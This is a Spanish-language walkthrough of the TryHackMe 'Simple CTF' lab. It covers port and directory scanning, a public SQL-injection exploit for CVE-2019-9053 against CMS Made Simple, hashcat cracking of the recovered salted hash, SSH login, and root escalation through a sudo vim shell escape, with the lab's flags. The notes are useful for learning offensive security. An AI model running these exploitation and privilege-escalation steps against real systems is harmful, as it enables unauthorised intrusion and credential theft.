# Simple CTF

Plataforma: TryHackMe
OS: Linux
Level: Easy
Status: Done
Complete: Yes
Created time: 4 de diciembre de 2024 21:53
IP: 10.10.186.87

## Notas

## Recopilación de información

### **Escaneo de puertos**

Comenzamos con un escaneo para identificar que puertos están abiertos.

---

```bash
sudo nmap -p- --open -T5 -sS --min-rate 5000 -vvv -n -Pn <%IP%> -oG targeted

```

![imagenes/image.png](imagenes/image.png)

### **Enumeración de servicios**

Una vez listado los puertos accesibles, procederemos a realizar la enumeración de servicios para su posterior identificación de vulnerabilidades.

---

- **Identificación de vulnerabilidades**
    - 21
    - 2222
    - 80
    

```bash
sudo nmap -sCV -p1,2,3 <%IP%> -oN nmap
sudo nmap -v -sV -O --script="safe and vuln" -T4 -n -Pn -p135,445 -oA nmap <%IP%>

```

![imagenes/image.png](imagenes/image 1.png)

Miramos la web y el contenido de robots.txt

![imagenes/image.png](imagenes/image 2.png)

Vemos que el directorio no esta visible
Probamos con gobuster

```bash
gobuster dir -u <http://10.10.186.89> -w /usr/share/wordlist/seclit/Discovery/Web-Content/directory-list-2.3-mediu.txt

Output:

/simple

```

![imagenes/image.png](imagenes/image 3.png)

## Explotación

### Explotación 1

Vulnerabilidad Potencial**: CVE-2019-9053
CMS Made Simple < 2.2.10 - SQL Injection

- **Exploit Disponibles**:
    
    ```bash
    searchsploit CMS Made simple 2.2.8
    Output:
    CMS Made Simple < 2.2.10 - SQL Injection | php/webapps/46635.py
    ```
    

NOTA: Ejecutamos el script. Para que funcione con python3, ha que poner con () todas las declaraciones print que van con “

```bash
python3 46635.py
```

![imagenes/image.png](imagenes/image 4.png)

```bash
+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```

### Explotación 2

Probamos a desencriptar el hash

```bash
hashcat -m 20 -a 0 0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2 /usr/share/wordlist/rockyou.txt
#
10 = md5($pass.$salt)
20 = md5($salt.$pass)

Output :
0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2:secret
```

### Explotación 3

Conectamos por ssh

```bash
ssh -p 2222 mitch@10.10.186.87

```

## Explotación posterior

### Escalada de privilegios

Accedemos como mitch

```bash
   sudo -l

   User mitch may run the following commands on Machine:
   (root) NOPASSWD: /usr/bin/vim
```

Buscamos el binario en GTFObins

```bash
Payload:
sudo vim -c ':!/bin/sh'

```

Probamos a obtener la shell: 

![imagenes/image.png](imagenes/image 5.png)

### Obtención de user.txt

- **Localización**:
    
    ```bash
    find / -name "user.txt"
    cat /path/to/user.txt
    Output: G00d j0b, keep up!
    ```
    

### Obtención de Root.txt

- **Localización**:
    
    ```bash
    find / -name "root.txt"
    cat /path/to/root.txt
    Output: W3ll d0n3. You made it!
    ```
    

## Conclusión